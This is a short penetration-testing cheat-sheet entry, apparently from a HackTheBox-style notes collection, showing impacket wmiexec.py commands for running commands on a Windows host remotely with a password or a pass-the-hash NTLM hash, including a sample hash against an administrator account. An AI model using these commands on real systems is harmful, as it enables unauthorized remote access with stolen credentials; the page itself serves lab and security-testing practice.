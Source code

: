 # Service Interaction

## [impacket-wmiexec](https://wadcoms.github.io/wadcoms/Impacket-WMIExec/)

```bash
wmiexec.py user:"P455w0rD!"@$IP "hostname"

/usr/share/doc/python3-impacket/examples/wmiexec.py user:"P455w0rD!"@$IP "hostname"

# Hash
wmiexec.py -hashes hash domain.com/user@$IP

# Example
wmiexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/administrator@10.10.10.161
```
